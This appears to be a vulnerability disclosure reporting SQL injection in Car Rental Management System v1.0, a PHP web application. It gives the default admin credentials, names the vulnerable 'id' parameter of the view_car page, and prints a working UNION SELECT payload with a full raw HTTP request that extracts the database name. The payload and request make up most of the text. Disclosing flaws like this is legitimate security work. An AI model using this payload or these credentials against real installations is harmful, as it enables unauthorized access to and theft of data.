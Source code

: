 # Car Rental Management System v1.0 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability File: /car-rental-management-system/index.php?page=view_car&id=

Vulnerability location: /car-rental-management-system/index.php?page=view_car&id=,id

[+] Payload: /car-rental-management-system/index.php?page=view_car&id=-4%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ // Leak place ---> id

Current database name: car_rental_db

```sql
GET /car-rental-management-system/index.php?page=view_car&id=-4%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170958961-3ef2a6c6-ae01-452e-b78e-ef8d47730f50.png)

![image](https://user-images.githubusercontent.com/54017627/170959174-86fb8363-84f7-45c1-b3c6-c6490b2ba677.png)
